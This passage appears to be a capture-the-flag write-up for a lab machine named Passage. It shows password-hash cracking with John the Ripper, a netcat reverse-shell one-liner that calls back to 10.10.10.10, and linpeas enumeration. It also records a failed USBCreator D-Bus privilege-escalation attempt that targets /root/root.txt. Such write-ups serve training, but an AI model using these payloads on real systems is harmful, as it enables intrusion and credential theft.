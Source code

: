 ```
$ john -format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hashes
Created directory: /home/zurc/.john
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
atlanta1         (?)
1g 0:00:00:02 DONE (2021-02-25 16:02) 0.4132g/s 5926Kp/s 5926Kc/s 17794KC/s (454579)..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

With the obtained RCE as **www-data**, sent payload and retrieved an interactive reverse shell using the payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`. 

## User flag

### Enumeration

After running `linpeas.sh` found some interesting information:

- This box is vulnerable to **USBCreator**

  ```
  [+] USBCreator
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
  Vulnerable!!
  ```

  Besides having this vulnerability in place, when tried to exploit it like explained in [this link](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) it didn't worked due to lack of permissions, which will probably work with another user. 

  ```bash
  www-data@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
  Error: GDBus.Error:org.freedesktop.DBus.Python.dbus.exceptions.DBusException: com.ubuntu.USBCreator.Error.NotAuthorized
  (According to introspection data, you need to pass 'ssb')
  ```

- Noted other 2 users in this box, where these were initially listed as e-mail addresses in the page and Paul called us attention once this is a user to which we have already cracked a password.

  ```
  [+] Users with console
  nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
  paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
  root:x:0:0:root:/root:/bin/bash
  ```

- Permissions for the console users, where **nadav** is the one that holds more privileges in the system, including being a member of **sudo** group. 
